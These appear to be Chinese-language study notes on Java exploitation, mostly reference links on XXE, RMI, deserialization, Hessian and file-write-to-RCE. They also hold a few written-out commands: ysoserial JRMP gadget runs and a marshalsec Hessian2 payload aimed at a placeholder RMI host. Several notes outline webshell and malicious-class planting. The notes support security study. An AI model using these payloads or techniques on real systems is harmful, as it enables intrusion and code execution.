


## XXE

https://github.com/gyyyy/footprint/blob/master/articles/2018/xxe-injection-overview.md

https://xz.aliyun.com/t/3357

https://www.cnblogs.com/nice0e3/p/13746076.html

https://www.leadroyal.cn/p/914/

原理:http://www.lmxspace.com/2019/10/31/Java-XXE-%E6%80%BB%E7%BB%93/

## JEP290

首先得学rmi

rmi源码分析

https://blog.51cto.com/u_15127593/4347270

https://www.cnblogs.com/binarylei/p/12115986.html

rmi利用:https://xz.aliyun.com/t/8706


https://www.cnpanda.net/sec/968.html

https://paper.seebug.org/1689/

服务端处理 `DGCImpl`的请求过程和 `RegistryImpl` 非常类似，都是在`Transport#serviceCall`中处理，调用 `UnicastServerRef#dispatch`，再调用`UnicastServerRef#oldDispatch` 最后在 `UnicastServerRef#unmarshalCustomCallData` 中为之后进行`readObject` 操作的 `ConnectionInputStream.serialFilter` 赋值为 `DGCImpl::checkInput`。

rmi,jndi,jrmp终结篇:https://threedr3am.github.io/2020/03/03/%E6%90%9E%E6%87%82RMI%E3%80%81JRMP%E3%80%81JNDI-%E7%BB%88%E7%BB%93%E7%AF%87/

## Lambda

https://micorochio.github.io/2016/12/21/lambda-and-Functional-Programming/

https://www.jianshu.com/p/40f833bf2c48

## 写文件rec

https://github.com/Firebasky/Java/blob/main/java%E6%97%A5%E5%B8%B8/java%E5%86%99%E6%96%87%E4%BB%B6rce.md

1.普通的Java web项目

直接写jsp木马 （如果能解析

2.如果不能解析jsp

通过写class文件让其触发某一个方法然后重写该方法rce。也就是把恶意类写入classpath( target/classes)，再通过某种方式加载、使用该恶意类，触发该恶意类的static代码块或执行该恶意类的某个方法，来实现通用的RCE利用。重点关注class.formane 可以参考2021国赛的ezj4va 就是通过重写readobject方法去触发rce。 或者可以参考d3ctf中的no rce题中也是写入target/classes中实现静态方法。然后通过jdbc去初始化恶意类触发。

d3ctf:https://mp.weixin.qq.com/s/yQ-00YaykUe41S0DdlgoiQ

3.如果项目是jar打包启动的

面前自己遇到的是springboot项目 通过覆盖charset.jar去hook实现rce。大概原理就是jvm启动的过程中不会全部加载资源如charset.jar是不会加载的只有通过特点方法才会加载。这样可以减少Java内存的消耗。 Fastjson还可以直接上传恶意文件到我们的`Bootstrap`和`Ext ClassLoader`目录,通过双亲委派机制加在我们的恶意文件。

参考 文章springboot写文件rce

springboot

https://landgrey.me/blog/22/

[https://threedr3am.github.io/2021/04/14/JDK8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%9C%BA%E6%99%AF%E4%B8%8B%E7%9A%84SpringBoot%20RCE/](https://threedr3am.github.io/2021/04/14/JDK8任意文件写场景下的SpringBoot RCE/)

fastjson

[https://threedr3am.github.io/2021/04/13/JDK8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%9C%BA%E6%99%AF%E4%B8%8B%E7%9A%84Fastjson%20RCE/](https://threedr3am.github.io/2021/04/13/JDK8任意文件写场景下的Fastjson RCE/)

https://www.cnblogs.com/wh4am1/p/14681335.html

https://mp.weixin.qq.com/s?__biz=MzI3MzUwMTQwNg==&mid=2247485312&idx=1&sn=22dddceccf679f34705d987181a328db&token=1393640502&lang=zh_CN&scene=21#wechat_redirect

4.通过SPI机制

## 序列化与反序列化

https://www.cnpanda.net/sec/893.html

https://www.cnpanda.net/sec/928.html




其中的个个字段讲解:

https://www.its404.com/article/silentbalanceyh/8294269


## 8u20

https://xz.aliyun.com/t/8277#toc-0

## RWCTF

https://www.anquanke.com/post/id/267124#h2-0

https://blog.csdn.net/solitudi/article/details/122678827

## log4j

log4j<=1.2.17反序列化漏洞（CVE-2019-17571）

https://mp.weixin.qq.com/s?__biz=Mzg3NjA4MTQ1NQ==&mid=2247483962&idx=1&sn=0e059564c368b84e3483704821aac06b&chksm=cf36fa7af841736c622b957459091f3dd994adbfbc8bf8bcab032995c0885776c62530eaf465&mpshare=1&scene=23&srcid=0918r2rgVPTbTKFRbVikY7cS&sharer_sharetime=1631972571155&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd

## shiro

-

## jar

远程调试

```
java -Xdebug -Xrunjdwp:transport=dt_socket,address=5005,server=y,suspend=y -jar ysoserial.jar
```

常见jar包

https://www.mi1k7ea.com/2019/11/25/%EF%BC%88%E8%BD%AC%EF%BC%89Java%E9%A1%B9%E7%9B%AE%E4%B8%AD%E5%B8%B8%E8%A7%81jar%E5%8C%85%E7%9A%84%E8%AF%B4%E6%98%8E/

jar加密

https://www.mi1k7ea.com/2019/11/25/%EF%BC%88%E8%BD%AC%EF%BC%89Java%E9%A1%B9%E7%9B%AE%E4%B8%AD%E5%B8%B8%E8%A7%81jar%E5%8C%85%E7%9A%84%E8%AF%B4%E6%98%8E/

## JRMPClient&JRMPListen

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 7777 CommonsCollections1 'open /Applications/Calculator.app/'
java -cp ysoserial.jar ysoserial.exploit.JRMPClient 127.0.0.1 1099 CommonsCollections1 "calc"
```


## java IO流操作

https://blog.csdn.net/wangbaochu/article/details/53484042

读文件

https://www.cnblogs.com/hkgov/p/14707726.html


## Socket

https://www.jianshu.com/p/7fedba847ef0

## AccessController.doPrivileged

https://tech101.cn/2019/08/15/AccessController%E7%9A%84doPrivileged%E6%96%B9%E6%B3%95%E7%9A%84%E4%BD%9C%E7%94%A8

主要是涉及一个权限问题,它会执行run中的代码

## javassist

https://www.cnblogs.com/nice0e3/p/13811335.html

https://www.cnblogs.com/rickiyang/p/11336268.html

```java
makeClassInitializer()	 制作一个空的类初始化程序（静态构造函数）。
insertClassPath()	      修改类搜索路径
```

## java后台执行

https://jayl1n.github.io/2020/02/13/java-nohup-implementation/ 应该是awd或者自己平时服务器运行jar包的时候才能用到

## Hession

原理:https://www.cnblogs.com/shangxiaofei/p/4222170.html

https://paper.seebug.org/1131/#_1  主要触发是因为在反序列化`Map`的时候会触发`Map.put()`,从而触发`Map.putVal->key.hashCode->key.equals`等一系列操作

https://www.mi1k7ea.com/2020/01/25/Java-Hessian%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#%E8%B0%83%E8%AF%95%E5%88%86%E6%9E%90

https://www.mi1k7ea.com/2021/04/22/XXL-JOB-Hessian2%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#0x00-%E5%89%8D%E8%A8%80

```cmd
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian2 SpringAbstractBeanFactoryPointcutAdvisor rmi://x.x.x.x:1099/ic9mnr > xxl.ser
```



## Dobbo

既然看了一下`Hession`,那也就跟着去学了下Dobbo

## Yaml

ban掉!!的绕过 https://b1ue.cn/archives/407.html

## classloader

一个可以用的loader:

**org.mozilla.classfile.DefiningClassLoader#defineClass**

利用classloader进行回显:

https://paper.seebug.org/572/#0x00

## JDWP远程代码执行

开启了远程debug

https://www.mi1k7ea.com/2021/08/06/%E6%B5%85%E6%9E%90JDWP%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/

## 浅析Ofbiz反序列化漏洞CVE-2020-9496

https://www.mi1k7ea.com/2021/09/21/%E6%B5%85%E6%9E%90Ofbiz%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2020-9496%EF%BC%89/

和weblogic的很像,在处理serilaize标签的时候会读取数据并且反序列化,修复时是对权限进行的一个设置。让用户无法访问改接口

## ResourceBundle

https://www.cnblogs.com/jona-test/p/11399218.html,可以用该类来读取配置文件,还可以结合dnslog来外带信息

log4j中的使用 https://mp.weixin.qq.com/s?__biz=Mzg4OTExMjE2Mw==&mid=2247483945&idx=1&sn=b15b68d95da83bb20f1b3496396f823a&chksm=cff19125f88618338373a32f98be3d2a9497b464d6531658c2aa96f4872c23eed294441917b5&mpshare=1&scene=23&srcid=1211aS0Tghr1agBnBRlwwGTw&sharer_sharetime=1639232420884&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd

## Unsafe

可以操作内存,这里不用调用构造方法创建对象

https://zhuanlan.zhihu.com/p/214093086

 [从一个被Tomcat拒绝的漏洞到特殊内存马](https://xz.aliyun.com/t/10577) **简单的说就是Tomcat启动时会加载lib下的依赖jar，如果黑客通过上传漏洞或者反序列化漏洞在这个目录添加一个jar，重启后，某些情况下这个jar会被当成正常库来加载，在一定条件下造成RCE** 这个功能是非常正常的因为中间件的类加载机制不是双亲委派机制.都是自己实现的

## springboot -jar启动过程

https://xie.infoq.cn/article/765f324659d44a5e1eae1ee0c

## shiro

[shiro基本使用](https://mp.weixin.qq.com/s?src=11&timestamp=1646355079&ver=3655&signature=PuAd6Wd6*ERF5wHL70PUH2SKt2ZiYAhJ6dVmpESeireR38lttZJyQzEMXW2h57P*aE62cfCRxbQCT1jhb4cg2p0iNfJERlBrEcKFHlApOZChEBhhU3M4rWln3Vi8IfKj&new=1)

[原创 | emoji、shiro与log4j2漏洞](https://mp.weixin.qq.com/s/mEwljigkkXk-y1ik7au_CQ)

[DOM解析XML](https://www.jianshu.com/p/43aa940838d2)

[构造java探测class反序列化gadget](https://mp.weixin.qq.com/s?__biz=Mzg3NjA4MTQ1NQ==&mid=2247484178&idx=1&sn=228ccc3d624f2d64a6c1d51555c42eea&chksm=cf36fb52f8417244ea608ea14da45b876548617864179c8da6df46010bed78aa41c4a2277cb8&mpshare=1&scene=23&srcid=1231zSEsxQMxcrllvqoBgmcY&sharer_sharetime=1640932147710&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd) 通过javassit.makeClass().toClass()创造的类会保存在内存中(后续可直接通过forname获取)

 [JAVA代码审计业务安全Checklist](https://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247500712&idx=1&sn=13027edf1e9d3385b650e611e9f559ab&chksm=ec1c9697db6b1f812fd88463a8d8301303b8c7cc364497d2ce1ca2190cf96701ad25463fc01d&mpshare=1&scene=23&srcid=1018GCa0aDvbQenw0fTuSv6F&sharer_sharetime=1634527194186&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd)

[反射修改静态属性](https://cloud.tencent.com/developer/ask/195780)


# 以后会接触


## SOAP

## idea搜索功能

https://blog.csdn.net/qq_26012495/article/details/109694133

## Netty

## susctf

https://github.com/susers/SUSCTF2022_official_wp/blob/main/baby%20gadget%20v1.0%20and%20rev.pdf

## 自动化代码审计
